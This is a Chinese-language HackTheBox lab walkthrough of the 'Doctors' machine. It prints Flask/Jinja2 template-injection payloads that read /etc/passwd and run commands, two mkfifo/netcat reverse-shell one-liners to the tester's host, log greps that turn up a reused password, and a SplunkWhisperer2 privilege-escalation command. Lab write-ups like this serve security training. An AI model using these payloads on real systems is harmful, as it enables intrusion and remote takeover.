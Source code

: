 ```yaml
---
layout: post
title:  "HackTheBox >_ Docker_209"
description: walkthrough
category: HackTheBox
---
```


# Docker_209

![]({{ site.url }}/assets/Docker_209.assets/20201001085037557_1874738791.png)

![]({{ site.url }}/assets/Docker_209.assets/20201001091301043_547753992.png)

![]({{ site.url }}/assets/Docker_209.assets/20201001091927797_1486909056.png)

![]({{ site.url }}/assets/Docker_209.assets/20201002100559883_672.png)

![]({{ site.url }}/assets/Docker_209.assets/20201002100612640_28567.png)

加入hosts

![]({{ site.url }}/assets/Docker_209.assets/20201002100641867_32158.png)











![]({{ site.url }}/assets/Docker_209.assets/20201002115938456_21540.png)

![]({{ site.url }}/assets/Docker_209.assets/20201002110344226_12843.png)


![]({{ site.url }}/assets/Docker_209.assets/20201030133349564_1523.png)

我们注意到url是

http://doctors.htb/post/2

如果改成1

http://doctors.htb/post/1

![]({{ site.url }}/assets/Docker_209.assets/20201030133512504_13411.png)
  
如果点击admin用户名会跳转到admin

http://doctors.htb/user/admin

![]({{ site.url }}/assets/Docker_209.assets/20201030105528241_7503.png)

http://doctors.htb/user/admin?page=1

A free blog to share medical knowledge

没有得到任何新鲜的线索。

----

![]({{ site.url }}/assets/Docker_209.assets/20201030141822719_28922.png)

py3，werkzeug 搜索了一下，
werkzeug是 WSGI（Python Web Server Gateway Interface），它为Python语言定义的Web服务器和Web应用程序或框架之间的一种简单而通用的接口。这是一个规范，描述了web server如何与web application交互
搜索发现

![]({{ site.url }}/assets/Docker_209.assets/20201030203521723_25727.png)

存在debug mode rce

https://www.exploit-db.com/exploits/43905

测试后发现无法利用

Flask

这使我们联想到flask的ssti漏洞
https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

重新测试

账户超过20分钟就会重置
重新注册登录
![]({{ site.url }}/assets/Docker_209.assets/20201030141655454_5866.png)


![]({{ site.url }}/assets/Docker_209.assets/20201030141904261_15436.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030141938888_29313.png)

测试post

![]({{ site.url }}/assets/Docker_209.assets/20201030142115257_22863.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030142253082_15874.png)

之前扫目录得到的archive的title会跟随变化

![]({{ site.url }}/assets/Docker_209.assets/20201030151952638_18048.png)

测试 ssti

![]({{ site.url }}/assets/Docker_209.assets/20201030151827472_4165.png)

成功，存在漏洞

![]({{ site.url }}/assets/Docker_209.assets/20201030151804248_18227.png)


因为已知是python3
尝试python3 payload

```python
{% raw %}{{().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}{% endraw %}
```

![]({{ site.url }}/assets/Docker_209.assets/20201030153314403_12844.png)

成功

```python
{% raw %}{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}{% endraw %}
```

![]({{ site.url }}/assets/Docker_209.assets/20201030153614942_15361.png)

可以执行命令

```python
{% raw %}{{ config.__class__.__init__.__globals__['os'].popen('ls | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1338 >/tmp/f').read() }}{% endraw %}
```

![]({{ site.url }}/assets/Docker_209.assets/20201030154024824_30249.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030155808263_25499.png)

立即获得shell

![]({{ site.url }}/assets/Docker_209.assets/20201030154123841_13931.png)


`python3 -c "import pty; pty.spawn(['/bin/bash']);"`

![]({{ site.url }}/assets/Docker_209.assets/20201030154256009_4564.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030154454333_4665.png)

adm组，可以查看log

log太多，而我们的shell只能持续20分钟

在log中找找感兴趣的东

```bash
find . -depth 3|xargs grep -ri 'shaun'
find . -depth 3|xargs grep -ri 'root'
find . -depth 3|xargs grep -ri 'password'
```

![]({{ site.url }}/assets/Docker_209.assets/20201030165221383_21045.png)

Guitar123，这个页面是密码重置页面，正常应该输入一个邮箱，但是这个日志显示输入了一个字符串

合理怀疑是错手输入了密码

查看home中的用户

![]({{ site.url }}/assets/Docker_209.assets/20201030161054540_23776.png)

所以凭证可能是

shaun:Guitar123

su shaun

![]({{ site.url }}/assets/Docker_209.assets/20201030165443784_22970.png)

不出所料
用户切换成功


但是没有sudo -l

![]({{ site.url }}/assets/Docker_209.assets/20201030165604690_30222.png)

枚举时发现8090端口运行的是 splunkd

![]({{ site.url }}/assets/Docker_209.assets/20201030195148577_32469.png)


splunkd -p 8089 start

/bin/sh /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat

![]({{ site.url }}/assets/Docker_209.assets/20201127102114147_5187.png)

8.0.5

搜索
splunkforwarder

![]({{ site.url }}/assets/Docker_209.assets/20201030195655069_8688.png)

参考阅读
https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/


exploit

https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py

```
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.35 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1339 >/tmp/f'
```

![]({{ site.url }}/assets/Docker_209.assets/20201030200531306_17563.png)

失败就再打一次

![]({{ site.url }}/assets/Docker_209.assets/20201030201123819_18450.png)